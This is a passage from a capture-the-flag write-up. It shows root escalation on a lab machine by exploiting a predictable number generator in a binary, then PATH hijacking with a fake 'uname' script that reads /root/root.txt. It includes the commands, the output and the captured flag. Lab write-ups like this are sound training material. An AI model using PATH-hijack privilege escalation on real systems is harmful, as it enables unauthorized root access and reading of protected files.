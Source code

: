 ![](../images/Pasted%20image%2020250404184352.png)

It seems like some sort of RNG is happening behind this, we can analyze it with `ghidra` or test this other stuff:

```bash
echo '111' | /srv/time-turner/swagger | grep "of" | cut -f5 -d' ' | /srv/time-turner/swagger ;
```

##### **How the Hijack Works**:

- **Predictable RNG**:  
    The binary uses the input (e.g., `111`) to generate its output. If the RNG is poorly implemented (e.g., uses input as a seed without proper entropy), the output becomes predictable.  
    
    Example:
    - Input `111` → Output `456`.
    - Input `456` → Output `789`.
        
- **Controlled Feedback**:  
    By extracting the output number and piping it back into the binary, the attacker forces the RNG into a deterministic sequence. This bypasses randomness.


![](../images/Pasted%20image%2020250404184846.png)


We can use the following to get `root.txt`, we can change the method and get our `authorized` to gain a shell as root, to the simplicity of things, let's simply read the flag:


```
TD=$(mktemp -d)
echo 'cat /root/root.txt' > "$TD/uname"
chmod a+x "$TD/uname"
export PATH=$TD:$PATH
echo 667 | /srv/time-turner/swagger | sed -n 2p | cut -d ' ' -f 5 | /srv/time-turner/swagger
```

We get this output:

```
Guess my number: Nice use of the time-turner!
This system architecture is RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```

Root flag is:

```
RME{M@rK-3veRy-hOur-0135d3f8ab9fd5bf}
```


![](../images/Pasted%20image%2020250404185921.png)

